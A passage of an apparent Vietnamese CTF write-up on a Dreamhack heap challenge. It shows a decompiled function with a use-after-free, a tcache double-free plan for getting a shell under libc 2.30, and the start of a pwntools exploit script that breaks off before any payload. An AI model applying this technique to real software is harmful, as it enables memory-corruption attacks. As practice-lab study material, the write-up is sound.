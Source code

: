 ```

nhập idx cần free , check idx , free idx đã nhập
```
unsigned __int64 delete_heap()
{
  unsigned __int64 v1; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("idx: ");
  __isoc99_scanf("%ld", &v1);                   // nhập idx cần free
  if ( v1 > 6 )
    exit(0);
  if ( !*((_QWORD *)&ptr + v1) )
    exit(0);
  free(*((void **)&ptr + v1));                  // uaf , không xóa con trỏ
  return __readfsqword(0x28u) ^ v2;
}
```
tóm tắt : option1 dùng để tạo chunk , option2 dùng để chỉnh sửa chunk , option3 dùng delete

vậy ta cũng sẽ sử dụng bug double free() y chang bài trước , tuy nhiên ở đây ta cần nói đến có lẽ là phiên bản libc này khác với bài trước

nếu ta thử làm giống thì ý tưởng sẽ là : tạo 1 chunk -> free vào tcache -> chỉnh sửa chunk đó để bypass check double_free -> delete tiếp -> malloc và thay đổi fw của chunk -> malloc tiếp để lấy chunk đầu trong bin ra -> malloc tiếp ghi dữ liệu để get_shell vào

tuy nhiên ý tưởng ở trên sẽ không thành công vì bài này ta sẽ phải cần chú ý đến cái gọi là tc_idx . tc_idx được hiểu rằng nó sẽ đếm số chunk trong bin . nếu đếm = 0 nghĩa là không có chunk nào trong tcache nên nó sẽ kh làm gì với tcache_bin
https://dreamhack.io/forum/qna/1305

vì vậy nếu như ý tưởng ở đầu ta muốn làm thì tc_idx của ta chỉ có 2 (gồm 2 thằng được free) vì vậy ta phải free() thêm lần nữa hoặc tạo 1 chunk khác rồi free()

script :
```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./tcache_dup2_patched")
libc = ELF("./libc-2.30.so")
ld = ELF("./ld-2.30.so")

context.binary = exe
p = process()
gdb.attach(p,gdbscript='''
           b*create_heap+82
           b*create_heap+94
           b*create_heap+222
           b*delete_heap+63
           b*delete_heap+152
           ''')
def create_heap(size,data):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'Size: ',str(size))
    p.sendafter(b'Data: ',data)
def delete_heap(idx):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b'idx: ',str(idx))
def modify_heap(idx,size,data):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b'idx: ',str(idx))
